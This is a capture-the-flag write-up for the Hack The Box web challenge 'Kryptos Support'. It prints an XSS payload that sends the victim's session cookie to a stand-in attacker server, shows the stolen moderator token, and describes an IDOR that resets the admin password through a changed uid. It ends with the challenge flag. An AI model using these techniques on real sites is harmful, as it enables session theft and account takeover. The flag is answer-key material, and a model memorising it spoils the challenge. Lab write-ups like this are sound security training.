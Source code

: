 # Kryptos Support (Web)

!(kryptos_support1.jpg)

## Initial Recon

Examing source code and looking at the HTTP requests in BurpSuite, found two endpoints:
- `/api/tickets`
- `/api/login`

GoBuster yielded no usable results.

## XSS Injection

Started an HTTP server on my machine and started experimenting with different XSS payloads.

`python3 -m http.server 80`
  
Found a winner!

`<img src=x onerror="location.href='http://your-web-server/?cookie=' + document.cookie">`

Checking our python3 web server, we can see we've now got a session cookie!

`/?cookie=session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1MzQ4ODV9.JO12yEA44QxXgfUmL3n6Sm4Et2AJc5rkvXkvSMdmFOI`

Manually put the cookie into your browser, and BOOM, we're logged in as `moderator` and can see the list of support tickets.

## Further Exploitation

Once logged in as `moderator`, we can see a link for a "Settings" page in the top left. This page allows you to change your password (without knowing the current password), and uses the endpoint: `/api/users/update`

Capturing a password change for our current session, Burp shows us the following information included in the POST request:

    {
        "password":"test",
        "uid":"100"
    }

Guessing the admin account may have a uid of 1, we use Burp repeater to send the following POST:


    {
        "password":"test",
        "uid":"1"
    }
    
Now, delete your cookies, return to the `/login` page, and login as `admin:test`.

There's your flag! `HTB{x55_4nd_id0rs_ar3_fun!!}`
